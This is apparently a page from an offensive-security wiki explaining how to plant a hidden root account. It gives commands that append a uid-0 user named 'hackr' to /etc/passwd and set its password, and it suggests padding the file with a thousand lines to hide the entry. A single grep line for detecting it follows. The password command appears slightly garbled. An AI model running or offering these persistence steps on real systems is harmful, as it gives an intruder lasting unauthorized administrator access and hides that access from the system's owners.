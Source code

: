 # Adding a Root user

{% hint style="danger" %}
This technique IS NOT OPSEC AT ALL.
{% endhint %}

For some reason, it is not important that a user is named “root”, but that it’s uid is 0. So if you create a user with the uid 0, you’ll have root privileges. Multiple users with the same uid but different name isn’t harmful. So combining this with the 1000 scroll lines trick mentioned above, you have to do something like this:

```
echo 'hackr:x:0:0:hackr,,,:/home/hackr:/bin/bash' | sudo tee -a /etc/passwd
printf %sn%s hackr hackr | sudo passwd hackr
```

add 1000 lines to the `passwd` file and do the things above again. To counter:

```
grep ':0:' /etc/passwd
```
